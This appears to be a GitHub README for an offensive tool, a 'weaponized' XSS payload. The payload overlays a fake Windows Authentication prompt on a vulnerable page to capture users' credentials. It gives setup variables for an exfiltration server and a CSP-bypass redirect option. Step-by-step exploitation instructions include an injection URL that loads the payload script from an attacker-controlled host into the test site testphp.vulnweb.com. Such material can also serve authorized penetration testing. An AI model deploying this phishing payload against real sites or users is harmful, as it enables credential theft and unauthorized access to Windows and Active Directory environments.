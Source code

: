 # [Phish] Windows Authentication Prompt

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays the dreaded Windows Authentication prompt popup window. The overlay creates the illusion that the operating system spawned the prompt. Once they encounter such an authentication prompt, most users have a (proven) tendency to blindly provide it credentials (which contributes to a higher success rate of such phishing attacks).<p>

Typical use-case scenarios:
* external network perspective (Internet)
  * public web application which uses Windows Authentication (e.g. Outlook Web Access) without 2FA
* internal network perspective (LAN)
  * Windows Active Directory environments (**NOTE**: no web application requirements)

The payload (`winph.js`) supports options:

* no CSP bypass - issue AJAX request

  ```
  ...
  const bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`)

  ```
  ...
  const bypassCSP = true;
  ...
  ```

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `scheme` - exfiltration web server scheme (http/https)

    `attIP` - exfiltration web server IP address

    `attPort` - exfiltration web server port

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/winph.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_cred_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_cred_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/73fbd395-1458-4a41-a1df-47dd6d58cf23

